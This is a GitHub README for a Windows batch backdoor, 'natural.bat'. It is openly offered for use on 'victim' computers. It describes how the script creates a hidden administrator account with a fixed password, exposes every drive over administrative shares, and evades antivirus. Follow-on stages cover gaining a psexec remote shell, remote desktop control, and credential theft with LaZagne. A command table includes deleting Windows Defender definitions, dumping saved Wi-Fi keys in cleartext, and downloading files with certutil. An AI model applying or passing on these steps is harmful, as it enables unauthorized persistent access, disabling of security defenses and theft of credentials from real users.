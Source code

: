 # Natural Backdoor for Windows
# natural.bat
Creates permanent and undetectable backdoor over administrative shares on Windoze boxes.

# How does it?
It's batch (cmd) file creates a backdoor which use the native features of windows. It does not create any suspicious anomaly indication in the system. It does not get caught by standard antivirus and firewalls. When the script is run with administrator rights, all hard disk drives of the victim computer are shared to the network as a hidden share (Windows administrational share). The hidden share can only be accessed by a secret administrator user created on the victim system. When the script is run on the victim computer, it performs the following operations, respectively.
- Adds 'Default' user with password 'admin0' into administrators group.
- Hides 'Default' user from control panel and logon screen.
- Enables file sharing on Windows Firewall
- Enables windows administrative file sharing (c$ ipc$ admin$ etc...)
- Disables empty password account security
- Appends the mac address of the victim computer to the end of the script file with a alias.

# Install
Run the script on victim computer with administrative privileges. In some cases Windows Defender Smart Screen blocks to run script because of alternate data stream zone identifier that is appended to the file when it is downloaded from the internet. To run script with administration priviligies try the methods below:
- Via command window with administative privileges: Open windows menu and search "cmd" then right click and select "Run as administrator". Type full path of the bat file or drag&drop the bat file to command window (full path will appear) and press "Enter" to run file.
- Unblock the file: Run windows power shell with administrative privileges and type Unblock-File path/to/natural.bat. From now on the batch file can be run without limitation. 

# Using
The address \\\ip\c$ gives the attacker full access (including write) to the c drive of the victim's computer. See the image below. The Default:admin0 account used for access is a hidden account and does not appear on the victim computer's login screen and control panel. The script also adds the required firewall rules for samba access (windows shares)l. 

![Administrative shares](assets/administrative-shares.png "Administrative shares")

The script prompts for an alias for the target computer at the end. The alias string entered is saved at the end of the natural.bat file along with the mac address of the computer on which the script is run. This mac address is stored to identify the victim computer on the network. If necessary, the current IP address of the target computer can be resolved by scanning the network from the mac address added to the end of the file.

# Next Stage 1: Remote Shell
You can run commands on the victim computer by taking advantage of the RPC feature of Windows. You can access the command line of the remote computer with the psexec program by downloading pstools from [the microsoft site](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) (sysinternals). PSEXEC tries to connect to the Admin$ share of the remote computer, in order to copy on the remote machine the PSEXecSVC.exe, which is the binary of the Service that will run remotely. The following psexec tutorial runs cmd.exe in interactive mode on the remote computer. Once you have the command line, what you can do is limited by your imagination.

![Remote shell](assets/remote-shell.png "Remote shell")


# Next Stage 2: Remote Desktop

 -  [Click](uvnc.md) for further steps to remote control victim computer with UltraVNC.
 - You may be interested in [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn) and [AutoRDPwn Dosc](https://darkbyte.net/autordpwn-la-guia-definitiva/)
 

# Next Stage 3: Get stored passwords and credentials


The LaZagne project is an open source application used to retrieve lots of passwords stored on a local computer. Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). This tool has been developed for the purpose of finding these passwords for the most commonly-used software. 			

https://github.com/AlessandroZ/LaZagne/releases/


# Usefull shell commands

| Command|Description|
|--------------|-----------|
|wmic process list brief| **Shows running process**|
|wmic useraccount| **Shows user accounts.**|
|wmic logicaldisk get caption,description,providername|**Show mounted disks**|
|wmic /Node:localhost /Namespace:\\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List|**Show installed Antivirus softwares**|
|sc query windefend |**Show service status of Microsoft Windows Defender.**|
|"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All | **Delete all rules of Defender (useful for machines without internet access)**|
|netsh wlan show profiles |**List stored wireless connection profiles.**|
|netsh wlan show profile name=<SSID Name> key=clear| **Show stored wireless key as clear text.**|
|certutil.exe -urlcache -split -f "url" setup.exe|**Downloads a file from command line without any external tool.**|
|fsutil fsinfo drives|**Get fixed disk drives list.** |
|dir C:\$Recycle.Bin /s /b |**Show recyle bin content.**|
|systeminfo|**Show system info.**|

 - [click](https://github.com/security-cheatsheet/cmd-command-cheat-sheet) some functional command examples. 
 - [click](https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters) basic commands for Pentesters 
 - [click](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png) to check "got administrator access" section in diagram.





# Uninstall
Just run unatural.bat with administrative privileges Its revert all registry settings and drop admin account.  The control computer can still continue to access the victim computer via the open session. However, this access authorization will be completely lost when the computer is restarted.

# Tested on
- [ ] Windows 7
- [x] Windows 10 32/64
- [ ] Windows 11 32/64

# Donation

Would you like to buy me a coffee? [Click](https://www.buymeacoffee.com/ozgurkoca).
